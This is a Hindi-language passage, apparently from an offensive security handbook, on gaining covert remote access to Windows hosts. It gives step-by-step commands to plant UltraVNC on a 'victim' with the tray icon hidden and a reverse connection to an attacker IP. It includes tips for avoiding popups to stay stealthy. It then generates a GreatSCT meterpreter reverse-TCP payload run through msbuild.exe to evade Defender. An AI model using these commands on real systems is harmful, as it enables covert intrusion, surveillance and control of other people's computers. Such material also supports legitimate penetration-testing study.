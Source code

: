 इसे यहाँ से डाउनलोड करें: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (आपको bin डाउनलोड्स चाहिए, सेटअप नहीं)

**होस्ट पर**: _**winvnc.exe**_ निष्पादित करें और सर्वर को कॉन्फ़िगर करें:

* _Disable TrayIcon_ विकल्प को सक्षम करें
* _VNC Password_ में एक पासवर्ड सेट करें
* _View-Only Password_ में एक पासवर्ड सेट करें

फिर, बाइनरी _**winvnc.exe**_ और **नवनिर्मित** फ़ाइल _**UltraVNC.ini**_ को **शिकार** के अंदर ले जाएँ

#### **रिवर्स कनेक्शन**

**हमलावर** को अपने **होस्ट** के अंदर बाइनरी `vncviewer.exe -listen 5900` को **निष्पादित** करना चाहिए ताकि वह रिवर्स **VNC कनेक्शन** को पकड़ने के लिए **तैयार** हो। फिर, **शिकार** के अंदर: winvnc डेमॉन `winvnc.exe -run` को स्टार्ट करें और `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900` चलाएँ

**चेतावनी:** गुप्तता बनाए रखने के लिए आपको कुछ चीजें नहीं करनी चाहिए

* अगर `winvnc` पहले से चल रहा है तो उसे शुरू न करें नहीं तो आप [पॉपअप](https://i.imgur.com/1SROTTl.png) ट्रिगर करेंगे। चेक करें कि यह `tasklist | findstr winvnc` के साथ चल रहा है या नहीं
* अगर `UltraVNC.ini` समान डायरेक्टरी में नहीं है तो `winvnc` को शुरू न करें नहीं तो यह [कॉन्फ़िग विंडो](https://i.imgur.com/rfMQWcf.png) खोल देगा
* मदद के लिए `winvnc -h` न चलाएँ नहीं तो आप [पॉपअप](https://i.imgur.com/oc18wcu.png) ट्रिगर करेंगे

### GreatSCT

इसे यहाँ से डाउनलोड करें: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT के अंदर:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
अब `msfconsole -r file.rc` के साथ **लिस्टर शुरू करें** और **xml पेलोड** को निम्न कमांड के साथ **निष्पादित करें**:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**वर्तमान डिफेंडर प्रक्रिया को बहुत तेजी से समाप्त कर देगा।**

### हमारा अपना रिवर्स शेल कंपाइल करना
